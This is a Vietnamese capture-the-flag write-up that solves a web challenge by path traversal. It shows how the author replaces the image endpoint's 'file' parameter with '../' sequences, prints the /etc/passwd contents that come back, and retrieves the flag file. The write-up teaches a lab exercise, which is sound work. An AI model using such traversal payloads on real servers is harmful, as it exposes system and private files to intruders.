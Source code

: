# VSL Summer CTF

<img src="https://github.com/Thuanle2401/VSL-CTF/blob/main/UploadFile1/images/VSL-summer.png?raw=true" width="500" height="300">

---
# Challenge: Beach Shop 0
---
## 1. Thông tin người thực hiện
- Họ và tên: Lê Ngọc Thuận

## 2. Thông tin Challenge:
- Link: http://61.14.233.78:5000
- Tính năng: Đọc nội dung hình ảnh (về đồ bơi) ở phía server và hiển thị cho người dùng.

## 3. Solution:
- Ta có thể đoán được việc trang web đọc nội dung của file ở server sau đó hiển thị phía client. Vậy sẽ ra sao nếu ta lợi dụng tính năng này để server đọc một nội dung của 1 file bất kì và hiện thị cho phía client.

- Tại url: http://61.14.233.78:5000/images?file=swimming_goggles.jpg có 1 param là `file` và có giá trị `swimming_goggles.jpg`, ta thử thay giá trị của param này bằng `../../../../../../../../../etc/passwd` để xem server có trả về cho ta nội dung của file này hay không. Và có vẻ server cho download file `passwd`.

![img](./image/1.png)

- Ta sẽ thử đọc nội dung của file passwd:
<pre>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
</pre>

- Từ những điều trên, ta có thể kết luận rằng server đã bị **Path Traversal**, loại lỗi cho phép kẻ tấn công có thể thao túng được file path của chương trình và trong trường hợp này kẻ tấn công có thể đọc bất kì nội dung của 1 file nào đó trên server.

- Bây giờ, ta chỉ cần đọc nội dung flag và giải được challenge, thay giá trị của param `file` thành `../../../../../../../../../flag.txt` và ta nhận được flag là: `VSL{b34ch_sh0p4th_tr4v3rs4l_2idmwiq9@39!}`







